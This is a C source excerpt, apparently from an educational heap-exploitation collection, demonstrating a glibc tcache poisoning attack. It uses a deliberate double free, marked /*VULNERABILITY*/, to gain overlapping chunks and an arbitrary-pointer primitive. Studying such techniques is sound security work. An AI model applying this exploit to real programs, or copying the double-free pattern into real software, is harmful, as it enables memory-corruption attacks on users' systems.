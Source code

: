 ```c
    puts("This file demonstrates a powerful tcache poisoning attack by tricking malloc into");
    puts("returning a pointer to an arbitrary location (in this demo, the stack).");
    puts("This attack only relies on double free.\n");

    // prepare the target
    intptr_t stack_var[4];
    puts("The address we want malloc() to return, namely,");
    printf("the target address is %p.\n\n", stack_var);

    // prepare heap layout
    puts("Preparing heap layout");
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    intptr_t *prev = malloc(0x100);
    printf("Allocating a chunk for later consolidation: prev @ %p\n", prev);
    intptr_t *a = malloc(0x100);
    printf("Allocating the victim chunk: a @ %p\n", a);
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
    
    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);
    
    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);
    
    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    puts("Now we have the chunk overlapping primitive:");
    int prev_size = prev[-1] & 0xff0;
    int a_size = a[-1] & 0xff0;
    printf("prev @ %p, size: %#x, end @ %p\n", prev, prev_size, (void *)prev+prev_size);
    printf("victim @ %p, size: %#x, end @ %p\n", a, a_size, (void *)a+a_size);
    a = malloc(0x100);
    memset(a, 0, 0x100);
    prev[0x110/sizeof(intptr_t)] = 0x41414141;
    assert(a[0] == 0x41414141);

    return 0;
}
```
